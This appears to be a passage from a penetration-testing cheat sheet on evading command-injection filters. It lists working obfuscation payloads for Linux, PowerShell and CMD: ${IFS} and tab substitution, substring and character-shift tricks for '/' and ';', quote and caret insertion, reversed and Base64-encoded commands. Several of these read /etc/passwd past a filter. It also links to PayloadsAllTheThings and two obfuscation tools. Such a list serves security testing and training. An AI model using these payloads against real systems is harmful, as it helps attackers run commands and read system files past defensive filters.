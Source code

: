 **Bypassing space blacklist**

 - Encoding the space as `\x20`
 - Using a tab (`%09`)
 - Using `${IFS}` - a Linux environment variable containing the CLI argument speparator (usually the space)
 - Using the input redirection operator - e.g.: `cat</etc/passwd`
 - Using the bash brace expantion syntax - e.g.: `{cat,/etc/passwd}`

**Bypassing `\` and `/` blacklisting**

 - Using `${PATH:0:1}` in Linux (Substring)
 - Using `$(tr '!-}' '"-~'<<<[)` in Linux (Character shifting)
 - Using `$env:HOMEPATH[0]` in Windows Powershell
 - Using `%HOMEPATH:~6,-5%` in Windows CMD (`-5%` is the length of the username)

**Bypassing `;` blacklisting**

 - Using `${LS_COLORS:10:1}` in Linux (Substring)
 - Using `$(tr '!-}' '"-~'<<<:)` in Linux (Character shifting)

**Bypassing `|` blacklisting**

 - Using `<<<` and a subshell in Linux - e.g.: `grep${IFS}root<<<$(cat${IFS}${PATH:0:1}etc${PATH:0:1}passwd)`

 **Bypassing command blacklists**

 - Adding aquotation marks `w"h"o"am"i` or `w'h'o'am'i`
 - Adding the positional character operator `who$@ami` (Linux only)
 - Adding the `\` character `w\ho\ami` (Linux only)
 - Adding the `^` character - e.g.: `who^ami` (Windows only)
 - Using mixed case `wHoAmI` (Windows only)
 - Using mixed case `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` or `$(a="WhOaMi";printf %s "${a,,}")` (Linux only)
 - Using reversed commands - e.g.: `$(rev<<<'imaohw')` (Linux only)
 - Using reversed commands - e.g.: `iex "$('imaohw'[-1..-20] -join '')"` (Windows Powershell only)
 - Using encoding - e.g. Base64: `bash<<<$(base64 -d<<<d2hvYW1p)` (Linux Only)
 - Using encoding - e.g. Base64: `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` (Windows Powershell only)  
   ❗❗❗ Powershell use the characterset UTF-16LE and not UTF-8 ❗❗❗  
   Create the correct Base64 string on Linux: `echo -n "whoami" | iconv -f utf-8 -t utf-16le | base64`

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

For more see: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses

Useful tools:

 - https://github.com/Bashfuscator/Bashfuscator
 - https://github.com/danielbohannon/Invoke-DOSfuscation


## Directory travesal
